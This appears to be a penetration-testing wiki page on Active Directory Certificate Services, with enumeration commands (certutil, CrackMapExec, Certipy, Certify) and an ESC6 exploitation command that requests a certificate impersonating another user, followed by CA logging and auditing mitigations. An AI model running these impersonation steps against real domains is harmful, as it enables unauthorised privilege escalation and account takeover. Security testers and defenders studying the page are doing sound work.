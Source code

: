# AD CS

Active Directory Certificate Services (AD CS) is a feature of Active Directory that allows a desginated server to issue certificates. This assists in helping environments leverage and deploy the security advantages of using certificate-based authentication.

For a way more well explained blog on exploiting AD CS, I highly recommend checking out [SpecterOps' article](https://posts.specterops.io/certified-pre-owned-d95910965cd2).&#x20;

## Enumerate AD CS

If we get a hit from these methods then we can browse to the host identified with the  following URL: `http://localhost/certsrv/`

### Certutil

Dump and display certification authority information with Certutil.exe. This utility can be used to quickly identify if there is a certificate authority on the domain for AD CS attacks:

```
Certutil -ping
Certutil.exe -tcainfo
```

### CrackMapExec

```bash
crackmapexec smb $ip -u $username -p $password -M adcs
```

### Certify

When dealing with AD CS, [Ceritfy](https://github.com/GhostPack/Certify) and [Certipy](https://github.com/ly4k/Certipy) are going to be your best friends.&#x20;

```bash
# Identify and list vulnerable templates with Certipy
certipy find -u $username -p $password -dc-ip $dcip -vulnerable

# Identify and list vulnerable templates with Certify
Certify.exe find /vulnerable
```

## Exploitation

The following section builds off of several available repositories that are referenced at the bottom of this page. There are multiple ways to exploit vulnerable certificate templates so I highly recommend searching through red team wikis and blogs to find one that may be specific for your use case.&#x20;

#### EDITF\_ATTRIBUTESUBJECTALTNAME2 (ESC6)

> If this attribute is set on the CA, any request (including when the subject is built from Active Directory) can have user defined values in the subject alternative name.

The above quote from Microsoft in attacker-speak means that we can then enroll in **any** template configured for domain authentication that also allows unprivileged users to enroll. This would allow the attacker to obtain a certificate that then allows them to authenticate as any user/machine on the domain.&#x20;

{% hint style="info" %}
This setting is disablesd by default.&#x20;
{% endhint %}

This setting, like many others in this section can be discovered and exploited #through using [Certify](https://github.com/GhostPack/Certify).&#x20;

```bash
# Find all enabled certificate templates:
Certify.exe find

# Abuse a cerificate with this setting configured 
Certify.exe request /ca:CA01.oasis.local\CorpCA /template:User /altname:$impersonateuser
```

## Mitigation

One of the easiest ways to assist in detecting exploitation of AD CS is to enable Certificate Authority logging. By default, AD CS does not enable logging by default, which in the case of an incident will prevent an organization from responding to an incident. This can be easily remediated:

```bash
# Enable CA Logging
certutil.exe -setreg CA\AuditFilter 127

```

Additionally, it is recommended to perform regular auditing with tools such as PSPKIAudit to detect vulnerable certificate templates:

{% embed url="https://github.com/GhostPack/PSPKIAudit" %}

## References

{% embed url="https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse" %}

{% embed url="https://www.thehacker.recipes/ad/movement/ad-cs/certificate-templates" %}

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}

{% embed url="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn786426(v=ws.11)" %}

{% embed url="https://www.riskinsight-wavestone.com/en/2021/06/microsoft-adcs-abusing-pki-in-active-directory-environment/" %}
